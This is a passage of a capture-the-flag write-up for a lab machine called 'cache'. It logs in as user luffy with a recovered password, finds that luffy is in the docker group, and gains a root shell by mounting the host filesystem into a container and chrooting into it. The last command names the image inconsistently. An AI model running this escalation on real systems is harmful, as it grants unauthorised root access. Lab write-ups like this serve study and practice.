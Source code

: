 ### creds
`luffy:0n3_p1ec3`
```
ash@cache:~$ su - luffy
Password: 0n3_p1ec3
luffy@cache:~$
```

### Enumeration luffy

* checking user luffy groups

	  luffy@cache:~$ id
	  uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)

* checking if there is any running container, There are not containers currently running

	  luffy@cache:~$ docker ps
	  CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES

* cheacking if There is any docker image

	  luffy@cache:~$ docker image ls
	  REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
	  ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB

# Root Privesc

* found docker shell at [GTFO Bins](https://gtfobins.github.io/gtfobins/docker/)
* it can be used to break out from restricted environments by spawning an interactive system shell. The resulting is a root shell.

	  docker run -v /:/mnt --rm -it alpine chroot /mnt bash

* in my case cache have ubuntu docker image

	  docker run -v /:/mnt --rm -it docker chroot /mnt bash